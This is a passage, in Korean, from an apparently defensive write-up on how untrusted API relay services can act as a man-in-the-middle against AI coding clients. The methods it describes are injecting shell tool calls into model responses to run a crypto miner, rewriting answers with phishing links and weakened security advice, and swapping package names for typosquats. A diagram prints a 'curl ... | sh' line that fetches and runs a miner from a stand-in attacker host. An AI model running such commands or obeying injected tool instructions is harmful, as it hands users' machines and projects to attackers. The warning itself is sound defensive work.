 이 조작의 심각성은 로컬 작업 영역뿐만 아니라 원격 백업까지 파괴할 수 있다는 점에 있으며, 백업 습관이 없는 개발자에게는 치명적일 수 있습니다.

### 고급 위험 벡터

단순한 정보 획득과 데이터 하이재킹 외에도, 신뢰할 수 없는 전환 서비스는 중간자로서 더 고급이고 은밀한 공격을 수행할 수 있습니다.

### 방식 3: 리소스 하이재킹 (Resource Hijacking)

운영자의 목표가 반드시 사용자 데이터에 있는 것은 아니며, 사용자의 컴퓨팅 리소스일 수도 있습니다. 이는 장기적인 기생식 위험입니다.

1. **마이닝 명령 주입**: 사용자가 일반 요청을 보낸 후, 중계업체는 반환된 응답에 `execute_shell` 명령을 주입합니다.
2. **백그라운드 실행**: 이 명령은 공격자 서버에서 조용한 암호화폐 마이닝 프로그램을 다운로드하고 `nohup` 또는 유사 기술을 사용하여 백그라운드에서 조용히 실행됩니다.
3. **장기 잠복**: 사용자는 단지 컴퓨터 속도 저하나 팬 소음 증가만 느낄 수 있으며, 백그라운드 프로세스를 직접 발견하기는 어렵습니다. 운영자는 사용자의 CPU/GPU 리소스를 지속적으로 활용하여 이익을 얻을 수 있습니다.

```mermaid
sequenceDiagram
    participant User as 사용자
    participant Client as 클라이언트
    participant MitMRouters as 신뢰할 수 없는 전환 서비스 (MITM)
    participant LLM as 대형 모델 서비스
    participant ThirdParty as 공격자 서버

    User->>Client: 임의 명령 입력
    Client->>MitMRouters: API 요청 전송
    MitMRouters->>LLM: 요청 전달
    LLM-->>MitMRouters: 정상 응답 반환
    
    MitMRouters->>MitMRouters: 리소스 소비 명령 주입
    MitMRouters->>Client: 조작된 응답 반환
    Client->>Client: 의도되지 않은 툴 사용 실행: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: 지속적인 자원 낭비
```

### 방식 4: 사회공학 및 콘텐츠 조작 (Social Engineering & Content Tampering)

이는 가장 경계해야 할 위험 중 하나로, 코드 실행에 의존하지 않고 모델 반환 텍스트 콘텐츠를 조작하여 사용자의 AI 신뢰를 이용합니다.

1. **가로채기 및 콘텐츠 분석**: 전환 서비스는 사용자 요청과 모델 응답을 가로채 콘텐츠를 의미 분석합니다.
2. **텍스트 조작**: 특정 시나리오가 감지되면, 타겟팅된 텍스트 조작을 실행합니다.
    * **금융 조언**: 사용자가 투자 조언을 문의하면, 전환 서비스는 모델 답변에 특정 위험 투자 대상에 대한 "낙관적" 분석을 추가합니다.
    * **링크 교체**: 사용자가 공식 소프트웨어 다운로드 링크를 요구하면, 전환 서비스는 URL을 피싱 사이트 링크로 교체합니다.
    * **보안 조언 약화**: 사용자가 방화벽 구성 방법을 상담하면, 전환 서비스는 모델 조언을 수정하여 의도적으로 안전하지 않은 포트 설정을 남겨 후속 조작을 준비합니다.
3. **사용자 수용**: 사용자는 AI의 권위성과 객관성을 신뢰하여 조작된 조언을 수용하게 되며, 이로 인해 자금 손실, 계정 도난 또는 시스템 침해가 발생할 수 있습니다.

이 위험은 샌드박스, 컨테이너, 명령 화이트리스트 등 모든 기술적 방어 수단을 우회할 수 있으며, 인간 결정 단계에 직접 영향을 미칩니다.

### 방식 5: 소프트웨어 공급망 위험 (Software Supply Chain Risk)

이 위험은 개발자의 전체 프로젝트를 대상으로 하며 단일 상호작용에 국한되지 않습니다.

1. **개발 명령 조작**: 개발자가 모델에 종속성 설치 또는 프로젝트 구성 방법을 질문할 때, 전환 서비스는 반환된 명령을 조작합니다.
    * **패키지명 하이재킹**: 사용자가 "pip로 `requests` 라이브러리를 설치하는 방법?"이라고 물으면, 전환 서비스는 답변의 `pip install requests`를 `pip install requestz`(악의적인 유사 이름 패키지)로 변경합니다.
    * **설정 파일 주입**: 사용자가 `package.json` 파일 생성을 요청하면, 전환 서비스는 `dependencies`에 위험한 종속 항목을 추가합니다.
2. **백도어 심기**: 개발자가 인지하지 못한 상태에서 위험한 종속성을 자신의 프로젝트에 설치하게 되며, 이는 전체 프로젝트에 백도어를 심는 결과를 초래합니다. 이 백도어는 개발자 자신뿐만 아니라 프로젝트 배포를 통해 더 많은 하위 사용자에게 영향을 미칩니다.
